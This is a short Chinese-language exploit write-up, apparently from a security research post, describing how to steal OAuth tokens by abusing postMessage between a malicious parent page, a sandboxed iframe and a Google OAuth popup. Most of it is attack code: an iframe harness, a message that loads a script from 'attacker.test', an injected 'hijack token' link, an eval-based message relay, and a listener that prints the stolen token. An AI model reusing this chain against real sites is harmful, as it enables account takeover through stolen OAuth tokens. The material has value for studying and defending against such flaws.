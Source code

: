 在这种情况下，我可以做一个类似的方法，就像第一个例子:

创建一个恶意页面，嵌入了一个沙盒的iframe，附加一个onload，在iframe加载时触发脚本。


```
<div id="leak"><iframe
id="i" name="i"
src="https://challenge-iframe.example.com/"
onload="run()"
style="border:0;width:500px;height:500px"></iframe></div>

```


因为恶意页面是iframe的父节点，所以它(恶意页面)可以通过postMessage向iframe发送消息来加载我们的脚本:  （我的理解:上面的那个页面为恶意页面，里面有iframe标签）



```
<script>
function run() {
  i.postMessage({type:'loadJs',jsUrl:'https://attacker.test/inject.js'}, '*')
}
</script>
```


在我的脚本加载到沙盒中，我用受害者的链接替换了内容:


```
document.body.innerHTML = '<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';
```
周期性启动一个脚本，以检查链接是否打开，以及我想要到达的iframe是否存在，并在iframe和主窗口中运行javascript。然后我附加了一个postmessage-listener（onmessage），将消息传递回恶意窗口中的iframe:

```

x = setInterval(function() {
  if(b && b.frames[1]) {
    b.frames[1].eval(
      'onmessage=function(e) { top.opener.postMessage(e.data, "*") };' +
      'top.postMessage({type:'initConfig'},"*")'
    )
    clearInterval(x)
  }
}, 500);

```

使得iframe加载的攻击者页面，可以监听我从主窗口的iframe注入postMessage-listener代理发送的消息:


```
<script>
window.addEventListener('message', function (e) {
 if (e.data) {
     document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
 }
});
</script>

```


[2]: https://openid.net/specs/oauth-v2-multiple-response-types-1_0-09.html#Encoding